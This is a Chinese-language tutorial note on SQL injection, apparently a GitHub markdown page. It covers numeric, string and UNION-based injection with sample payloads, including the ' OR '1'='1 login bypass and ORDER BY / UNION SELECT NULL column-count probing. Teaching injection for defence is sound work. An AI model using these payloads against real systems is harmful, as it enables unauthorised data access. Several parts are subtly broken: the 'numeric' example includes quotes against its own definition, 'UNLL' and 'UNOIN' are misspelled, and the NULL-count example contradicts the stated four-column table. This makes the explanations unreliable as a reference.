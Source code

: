> 反引号

- **如果建的表名为MySQL本身的关键字，这个名字需要用反引号括起来**。为了区分Mysql本身的保留字和用户自定义的名字。所以为保证不出错，一般创建表名和库名的时候，都会用反引号把名字括起来。

# 常见SQL注入分类

## 1.数字型注入

> 指 注入内容不带引号

```SQL
123' AND 1=1  成功
123' AND 1=2  报错
```

## 2.字符型注入（万能密码）

> 指注入内容带引号

``````SQL
123' OR '1'='1
``````

## 3.联合注入（UNION）

用于合并两个或者多个SELECT语句的结果集，并默认消除表中的任意重复行(`UNOIN ALL`表示保留重复行)

### 步骤1

**一般都是合并默认当前表和想爆出的其他表的数据，而想爆出的数据一般都是字符型，所以下面两个限制的解决方法都针对默认当前表。**

> **限制1：查询这个表时，必须要知道这个数据表有多少列（列的数量）**

> 三种解决方法：

``````sql
1' union SELECT 1,2,3,4 #
#数据表有四列的情况

order by 5-- 报错
order by 4--  成功
#数据表有四列的情况

' UNION SELECT NULL,NULL,NULL,NULL--    报错
' UNION SELECT NULL,UNLL,NULL,NULL,NULL--     成功
#数据表有四列的情况 
``````

> **限制2：查询的数据要是与对应列的数据类型匹配的**

```sql
#以自身联合查询为例：
1' union select 1,"张三",2,3,"杭州" #
```
